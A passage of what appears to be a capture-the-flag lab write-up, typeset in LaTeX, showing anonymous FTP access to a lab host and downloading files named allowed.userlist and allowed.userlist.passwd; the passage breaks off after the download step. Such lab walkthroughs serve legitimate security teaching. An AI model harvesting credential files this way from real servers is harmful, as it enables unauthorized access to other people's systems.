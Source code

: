 \documentclass[conference]{IEEEtran}
\begin{document}
As we can see, just a simple webpage. Let's check out the file server:


\begin{scriptsize}
\begin{verbatim}
root@ghost:~# ftp -a 10.129.23.6
Connected to 10.129.23.6.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42324|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||44599|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |************************************************************************|    33        0.39 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.20 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||42021|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |************************************************************************|    62        0.81 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.34 KiB/s)
ftp> exit
221 Goodbye.
\end{verbatim}
\end{scriptsize}

We accessed the ftp server via the "-a" flag, which allows us to access the data anonymously. We then used the "ls" commnand to list everything on the server.
    And we are presented with two files:


\begin{scriptsize}
\begin{verbatim}
ftp> ls
229 Entering Extended Passive Mode (|||42324|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
ftp>
\end{verbatim}
\end{scriptsize}


We then use the "get" command to download the files:
\end{document}
